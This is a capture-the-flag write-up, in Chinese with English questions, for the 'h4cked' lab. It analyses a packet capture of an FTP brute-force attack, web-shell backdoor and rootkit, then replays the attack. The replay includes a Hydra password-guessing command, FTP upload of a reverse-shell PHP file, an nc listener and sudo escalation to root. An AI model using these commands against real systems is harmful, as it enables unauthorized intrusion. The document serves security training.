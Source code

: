 +++
title = 'h4cked'
date = 2024-09-12T23:14:19-04:00
+++
h4cked
===

### environment
KALI Linux ip 10.10.136.98

TARGET 10.10.194.25
###  Oh no! We've been hacked!

- [x] The attacker is trying to log into a specific service. What service is this?

隨便往下滑，即可知道在FTP-Brute-Force

![image](https://user-images.githubusercontent.com/67756786/192454846-dfa19b47-a439-40c8-b43a-15a5387f84f8.png)

- [x] There is a very popular tool by Van Hauser which can be used to brute force a series of services. What is the name of this tool?

Hydra，這題直接直覺猜的，因為5碼還有基本上都是用這工具xD

- [x] The attacker is trying to log on with a specific username. What is the username?

往下滑及有答案

![image](https://user-images.githubusercontent.com/67756786/192454991-e758dc3e-c9c2-4161-87ad-dbf8c62e74d5.png)


- [x] What is the user's password?

找到成功登入封包 Follow -> TCP Stream

![image](https://user-images.githubusercontent.com/67756786/192455214-41820f92-0055-45f8-891b-e8d984ccf363.png)


- [x] What is the current FTP working directory after the attacker logged in?

往下找到有執行指令的地方 Follow -> TCP Stream

![image](https://user-images.githubusercontent.com/67756786/192455489-3d90e70e-3e58-44f6-b32e-16a0f5c9fd7e.png)


- [x] The attacker uploaded a backdoor. What is the backdoor's filename?

![image](https://user-images.githubusercontent.com/67756786/192455762-418c2554-184f-4f0f-9125-da82ecae9812.png)


- [x] The backdoor can be downloaded from a specific URL, as it is located inside the uploaded file. What is the full URL?

從 FTP-DATA中查看 Follow -> TCP Stream

![image](https://user-images.githubusercontent.com/67756786/192456134-b9f23bc7-e0e4-4eed-bfba-96796d5762ec.png)

- [x] Which command did the attacker manually execute after getting a reverse shell?

從GET SHELL.PHP下面幾個封包點選Follow -> TCP Stram

![image](https://user-images.githubusercontent.com/67756786/192456374-3222f767-6286-4faa-9522-c4f266feb317.png)


- [x] What is the computer's hostname?

![image](https://user-images.githubusercontent.com/67756786/192456516-3fa97b38-360b-4fdf-ad5b-5a9d3547e040.png)


- [x] Which command did the attacker execute to spawn a new TTY shell?

基本上進入後都先執行這個，不然原本的很難用

![image](https://user-images.githubusercontent.com/67756786/192456563-e12ae8ec-80a0-44b9-b3f6-091fd8b2f8be.png)


- [x] Which command was executed to gain a root shell?

確認自己有root權限後直接root

![image](https://user-images.githubusercontent.com/67756786/192456723-2abbabce-d16a-4e0d-9733-255c3801ccf0.png)


- [x] The attacker downloaded something from GitHub. What is the name of the GitHub project?

![image](https://user-images.githubusercontent.com/67756786/192456812-945201b3-157a-4672-8f5a-f09cb326dc58.png)


- [x] The project can be used to install a stealthy backdoor on the system. It can be very hard to detect. What is this type of backdoor called?

github上有介紹 rootkit

###  Oh no! We've been hacked!
- [x] Run Hydra (or any similar tool) on the FTP service. The attacker might not have chosen a complex password. You might get lucky if you use a common word list.

原先知道user是jenny，用常見的word list 就用kali內建的rockyou(爆破出來密碼987654321)

```
hydra -l jenny -P /usr/wordlist/wordlist/rockyou.txt ftp://10.10.194.25
```

- [x] Change the necessary values inside the web shell and upload it to the webserver

登入ftp後，將shell中的ip port改為kali環境的

```
ftp -4 10.10.194.25
```

```
get shell.php
```

更改shell

![image](https://user-images.githubusercontent.com/67756786/192473552-a278e3e2-19dd-43a8-bdb1-58c4e954d515.png)

進入ftp後將shell寫上去

```
put shell2.php shell2.php
```
- [x] Create a listener on the designated port on your attacker machine. Execute the web shell by visiting the .php file on the targeted web server.

```
nc -lvnp 8888
```

- [x] Become root!

發現先使用su jenny發現jenny有權限即可使用sudo su變成root


- [x] Read the flag.txt file inside the Reptile directory

進入/root下找flag.txt
